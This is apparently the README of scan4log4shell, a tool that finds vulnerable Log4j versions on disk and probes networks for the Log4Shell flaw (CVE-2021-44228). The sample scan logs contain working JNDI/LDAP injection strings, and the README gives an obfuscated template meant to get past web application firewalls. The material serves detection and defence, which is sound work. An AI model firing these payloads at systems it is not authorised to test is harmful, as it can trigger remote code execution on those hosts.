 # scan4log4shell
> Scanner to detect vulnerable log4j versions on your file-system or to send specially crafted requests and catch callbacks of systems that are impacted by log4j log4shell vulnerability (CVE-2021-44228)

CVE-2021-44228 is a remote code execution (RCE) vulnerability in Apache Log4j 2. An unauthenticated, remote attacker could exploit this flaw by sending a specially crafted request to a server running a vulnerable version of log4j. The crafted request uses a Java Naming and Directory Interface (JNDI) injection via a variety of services including:
- Lightweight Directory Access Protocol (LDAP)
- Secure LDAP (LDAPS)
- Remote Method Invocation (RMI)
- Domain Name Service (DNS)

## Installing
You can install the pre-compiled binary in several different ways

### homebrew tap:
```bash
brew tap hupe1980/scan4log4shell
brew install scan4log4shell
```
### scoop:
```bash
scoop bucket add scan4log4shell https://github.com/hupe1980/scan4log4shell-bucket.git
scoop install scan4log4shell
```

### deb/rpm/apk:

Download the .deb, .rpm or .apk from the [releases page](https://github.com/hupe1980/scan4log4shell/releases) and install them with the appropriate tools.

### manually:
Download the pre-compiled binaries from the [releases page](https://github.com/hupe1980/scan4log4shell/releases) and copy to the desired location.

## Usage 
```bash
Usage:
  scan4log4shell [command]

Available Commands:
  completion  Prints shell autocompletion scripts for scan4log4shell
  help        Help about any command
  local       Detect vulnerable log4j versions on your file-system
  remote      Send specially crafted requests and catch callbacks of systems that are impacted by log4j log4shell vulnerability

Flags:
  -h, --help            help for scan4log4shell
  -o, --output string   output logfile name
  -v, --verbose         print detailed logging messages
      --version         version for scan4log4shell

Use "scan4log4shell [command] --help" for more information about a command.
```

## Local
Detect vulnerable log4j versions on your file-system
```bash
Usage:
  scan4log4shell local [paths] [flags]

Flags:
  -e, --exclude stringArray      path to exclude
  -h, --help                     help for local
      --ignore-ext stringArray   ignore .jar | .zip | .war | .ear | .aar
      --ignore-v1                ignore log4j 1.x versions
      --print-summary            print a summary

Global Flags:
  -o, --output string   output logfile name
  -v, --verbose         print detailed logging messages
```

### Example
```bash
make run-local

scanner_1  | 2021/12/16 07:32:25 [i] Log4Shell CVE-2021-44228 Local Vulnerability Scan
scanner_1  | 2021/12/16 07:32:25 [i] Start scanning path /walk
scanner_1  | ---------
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.14.0-bin/log4j-1.2-api-2.14.0-javadoc.jar...
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.14.0-bin/log4j-1.2-api-2.14.0-sources.jar...
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.14.0-bin/log4j-1.2-api-2.14.0.jar...
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.14.0-bin/log4j-api-2.14.0-javadoc.jar...
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.14.0-bin/log4j-api-2.14.0-sources.jar...
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.14.0-bin/log4j-api-2.14.0.jar...
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.14.0-bin/log4j-core-2.14.0.jar...
scanner_1  | 2021/12/16 07:32:25 [!] Possibly vulnerable file identified: /walk/apache-log4j-2.14.0-bin/log4j-core-2.14.0.jar
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.15.0-bin/log4j-api-2.15.0.jar...
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.15.0-bin/log4j-core-2.15.0.jar...
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.15.0-bin/log4j-spring-boot-2.15.0.jar...
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.16.0-bin/log4j-api-2.16.0.jar...
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.16.0-bin/log4j-core-2.16.0.jar...
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/jakarta-log4j-1.2.8/dist/lib/log4j-1.2.8.jar...
scanner_1  | 2021/12/16 07:32:25 [!] Log4j V1 identified: /walk/jakarta-log4j-1.2.8/dist/lib/log4j-1.2.8.jar
scanner_1  | 2021/12/16 07:32:25 [i] Completed scanning
```
## Remote
Send specially crafted requests and catch callbacks of systems that are impacted by log4j log4shell vulnerability
```
Usage:
  scan4log4shell remote [flags]

Flags:
      --caddr string            address to catch the callbacks (eg. ip:port)
      --cidr string             subnet to scan (default "192.168.1.0/28")
      --fields-file string      use custom field from file
      --headers-file string     use custom headers from file
  -h, --help                    help for remote
      --listen                  start a listener to catch callbacks
      --max-threads int         max number of concurrent threads (default 50)
      --no-redirect             do not follow redirects
      --no-user-agent-fuzzing   exclude user-agent header from fuzzing
      --no-wait-timeout         wait forever for callbacks
      --payloads-file string    use custom payloads from file
  -p, --port stringArray        port to scan (default [8080])
      --proxy string            proxy url
      --schema string           schema to use for requests (default "https")
      --timeout duration        time limit for requests (default 3s)
  -t, --type string             get, post or json (default "get")
      --waf-bypass              extend scans with WAF bypass payload
  -w, --wait duration           wait time to catch callbacks (default 5s)

Global Flags:
  -o, --output string   output logfile name
  -v, --verbose         print detailed logging messages
```
### Example
```bash
make run-remote

scanner_1  | 2021/12/16 09:57:24 [i] Log4Shell CVE-2021-44228 Remote Vulnerability Scan
scanner_1  | 2021/12/16 09:57:24 [i] Listening on 172.20.0.30:4444
scanner_1  | 2021/12/16 09:57:24 [i] Start scanning CIDR 172.20.0.0/24
scanner_1  | ---------
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.0:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.1:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.2:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.3:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.4:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.5:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.6:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.7:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.8:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.9:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.10:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.11:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.12:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.13:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.14:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.15:8080
scanner_1  | 2021/12/16 09:57:24 [!] Possibly vulnerable host identified: 172.20.0.13:60614
```

### Custom Payload
If you specify a file with custom payloads, you can use the following placeholders for callback address and resource:
- {{ .CADDR }}
- {{ .Resource }}

For example: 
```
${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//{{ .CADDR }}/{{ .Resource }}}
```

## References
- https://gist.github.com/SwitHak/b66db3a06c2955a9cb71a8718970c592
- https://nvd.nist.gov/vuln/detail/CVE-2021-44228


## License
[MIT](LICENCE)
